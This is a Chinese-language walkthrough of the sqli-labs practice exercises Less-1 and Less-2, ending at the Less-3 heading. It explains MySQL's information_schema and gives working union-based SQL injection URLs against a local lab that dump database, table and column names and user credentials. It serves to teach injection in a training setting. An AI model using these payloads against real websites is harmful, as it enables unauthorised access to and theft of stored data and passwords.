 

系统数据库——information_schema，包含所有数据库相关信息

information\_schema.schemata中schema\_name列，字段为所有库名

information\_schema.tables中table\_name列对应数据库所有表名，与table\_schema列对应

information\_schema.columns同理，column\_name与table\_schema和table\_name对应

![](https://upload-images.jianshu.io/upload_images/11356161-fdc1ca20fbf6be3c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

**Less-1**

![](https://upload-images.jianshu.io/upload_images/11356161-c928811f8d737a87.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

首先`Please input the ID as parameter with numeric value`，param的形式查询字符串为id

id=1闭合单引号报错`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

添加注释使用order by查列数，此处order by为：`ORDER BY column1 [ASC|DESC], column2 [ASC|DESC],...`，为指定以某一列为key进行排序，通过尝试可以得出列数。这里经尝试为3列

接着进行联合注入，通过回显爆出表名，列名，字段。这里查询时需要将id查询结果限定为空集，第二个查询结果才能显示出来

爆数据库
`http://localhost/sqli/less-1/?id=-1' union select 1,group_concat(schema_name),concat_ws(';',schema_name) from information_schema.schemata--+`

爆当前security数据库的表
`http://localhost/sqli/less-1/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ `

爆user表的列
`http://127.0.0.1/sqli/less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+`

爆数据
`http://127.0.0.1/sqli/less-1/?id=-1' union select 1,concat_ws(';',username,password),3 from users where id=1--+`

***

**Less-2**

在查询字符串id值设为1

接着添加单引号，报错为`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

可知单引号影响了闭合，为传入整数查询

后续注入内容与Less-1相同：表-列-值

***

**Less-3**
